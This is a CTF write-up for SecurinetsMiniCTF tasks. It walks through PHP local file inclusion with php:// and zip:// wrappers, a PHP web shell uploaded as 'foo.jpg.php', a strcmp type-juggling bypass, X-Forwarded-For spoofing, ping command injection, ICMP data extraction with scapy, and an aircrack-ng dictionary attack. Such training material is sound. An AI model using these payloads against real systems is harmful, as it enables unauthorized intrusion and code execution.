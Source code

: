 # SecurinetsMiniCTF Writeups #
Hello guys , you will find here writeups of SecurinetsMiniCTF tasks written by Kahla (Meeeeeee ! ) , i want to apologize for the lack of details in these solvers , i really didn't have enough time (exams are sooon :'( ) anyways don't hesitate and contact me if you had any problems 

## Warm Up (535 Pts) ##

![TASK](https://i.imgur.com/JM2d9Dd.jpg)


In this task we are given a simple web page showing an include statement , the idea is simple this is a local file inclusion LFI and our goal is to read flag.php content so we will use php wrappers .

***Payload*** : 
> url/_=php://filter/convert.base64-encode/resource=flag.php
we will then have the flag.php content encoded with base64 , so after decoding it we get our flag 

## No More Warm Up (884 Pts) ##

![TASK](https://i.imgur.com/SbuUjoK.jpg)


In this task we are given an upload page, in fact there are two solutions 

- ***The unintended*** one which i think pretty easy xd :

you only have to upload a php shell with the name "foo.jpg.php"
**Example :**

Content of foo.jpg.php :
```php
<?php system($_GET('command')); ?> 
```
and then we just have to visit 
>/uploads/foo.jpg.php?command=YourCommandHere  

- ***The Intended Solution:***

We can notice that there is a possibility of an LFI in the page parameter but unfortunately all the known php wrappers are filtered (The Author is 3vil)

Because of the existence of the upload feature we can think of the possibility of using the zip wrapper
so firstly we create foo.php file : 
```php
<?php system($_GET['command']) ; ?>
```

Then we have to compress the file :
> zip foo.zip foo.php

and rename it to foo.jpg :
> mv foo.zip foo.jpg

and finally after uploading the foo.jpg file our payload will be :
>/?page=zip://uploads/foo.jpg%23foo

Now the foo.php will be unzipped and we will have the possibility to execute any command with 
>foo.php?command=YourCommandHere(ls first to list all files and then cat the flag file)

## My Hero (884 Pts) ##

![TASK](https://i.imgur.com/iKcmReS.jpg)

We are given a page with php code inside , there are two conditions we need to bypass to have our beloved flag , 

![TASK](https://i.imgur.com/KdtGnwn.png)


- First check :
> if(file_get_contents(@$_GET['__'])==="Kahla is my hero")

in order to bypass this condition we will have to use the input php wrapper 
- The second condition :
>if(strcmp(@$_GET['_'],$pass)==0)

We will exploit php type juggling, in php NULL==0 will return True so we will try to pass an array as a parameter then the strcmp (AnArray,$pass) will return Null 

***Finally this is our payload :***
> /?__=php://input&_[]= 

And don't forget to write the sentence "Kahla is my hero" in the body of the Http request(you can use burp to facilitate things)

## No Clues (1000 Pts) ##

![TASK](https://i.imgur.com/xUL2HVO.jpg)


In this task we got a picture of the admin connecting to a web server through proxies so we can think that maybe we will use X-forwarded-for http header , You can read about it here [LINK](https://en.wikipedia.org/wiki/X-Forwarded-For)

![TASK](https://i.imgur.com/aBTtnLy.jpg)

As we can see in this wikipedia article , the X-forwarded-for header adds automatically the last connected proxy (proxy 3
in our case which is a load balancer maybe)
>    X-Forwarded-For: client, proxy1, proxy2
where the value is a comma+space separated list of IP addresses, the left-most being the original client, and each successive proxy that passed the request adding the IP address where it received the request from. In this example, the request passed through proxy1, proxy2, and then proxy3 (not shown in the header).

so we will add this header to our http request using burp suite: 
>X-Forwarded-For:adminIP,Proxy1,Proxy2 ***(replace each one with its ip address xd)***

Bingo we are now connected as an admin and we have a simple web page that pings any ip we provide , this step is pretty simple by entering :
>11;ls 

we can have an RCE , so our last payload is 
>12;cat z21851ddfde521782z8

## More Than A Crush 2 (991 Pts) ##

![TASK](https://i.imgur.com/ZeMhn9B.jpg)


In this Forensics task , we were given a wireshark capture ,each ICMP packet of type 0 hold within it some raw data that's why we ll extract it using scapy library in python , concatenate all this data and then decode it 

![TASK](https://i.imgur.com/429tPOP.png)


```python
#!/usr/bin/env python

from scapy.all import *
import base64

#EXTRACT RAW FLAG
def extract_flag():
    bin=""
    packets=rdpcap("morecv2.pcapng")
    for pckt in packets :
        if pckt.haslayer(scapy.all.ICMP) :
            if pckt[scapy.all.ICMP].type==0:
                try:
#                     pckt[scapy.all.ICMP].show()
                    bin+=pckt[scapy.all.Raw].load
                except ValueError:
                    continue    
    return bin            

#MAIN

raw_bin=extract_flag()    
#DECODE Base64 AND CREATE THE ZIP FILE
with open("youuupi.zip","wb") as file:
	file.write(base64.b64decode(raw_bin))
```
Finally you only have to unzip the extracted file and then use strings tool to have the flag

## Chonin LvL (713 Pts) ##

![TASK](https://i.imgur.com/PxApLp2.jpg)


This task is pretty simple , we have a pcap file of a handshake so we need to get the password of this access point in order to submit it, we will launch a dictionary attack

>aircrack-ng <filename>.pcap -w /usr/share/wordlists/rockyou.txt

And Bingo the password is ***gohan123***

## ##
I hope you enjoyed the tasks and learned from them, i apologize again for the lack of details , contact me if you faced any problems 
